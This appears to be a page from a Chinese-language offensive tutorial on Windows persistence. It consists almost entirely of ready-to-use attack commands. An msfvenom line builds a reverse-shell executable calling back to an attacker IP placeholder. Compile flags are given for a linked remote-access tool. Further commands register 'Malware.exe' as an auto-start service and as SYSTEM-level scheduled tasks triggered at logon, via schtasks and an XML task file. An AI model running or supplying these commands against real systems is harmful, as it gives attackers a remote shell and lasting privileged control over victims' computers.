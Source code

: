 ### 服务持久化

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=攻击者IP地址 LPORT=4444 -f exe > msf.exe
```

[windows_server.cpp](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E4%BA%94%E7%AB%A0/Per/windows_server.cpp)

```Bash
x86_64-w64-mingw32-g++ -O2 windows_server.cpp -o windows_server.exe -I /usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

```Bash
sc create GhostWolfLab binpath= "C:\Users\snowwolf\Desktop\rat\pre\windows_server.exe" start= auto
sc query GhostWolfLab
sc start GhostWolfLab
sc config ExistingService binPath= "C:\Path\To\Malware.exe"
sc stop 服务名称
sc delete 服务名称
```

### 计划任务持久化

1、使用schtasks命令创建计划任务

```Bash
schtasks /create /tn "Snowwolf" /tr "C:\Path\To\Malware.exe" /sc onlogon /ru SYSTEM
```

2、使用XML配置创建计划任务

```xml
<!-- Task.xml -->
<Task version="1.2" xmlns="http://schemas.microsoft.com/windows/2004/02/mit/task">
  <Triggers>
    <LogonTrigger>
      <Enabled>true</Enabled>
    </LogonTrigger>
  </Triggers>
  <Actions>
    <Exec>
      <Command>C:\Path\To\Malware.exe</Command>
    </Exec>
  </Actions>
</Task>
```

```Bash
schtasks /create /tn "MaliciousTask" /xml "C:\Path\To\Task.xml" /ru SYSTEM
```

[task.cpp](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E4%BA%94%E7%AB%A0/Per/task.cpp)
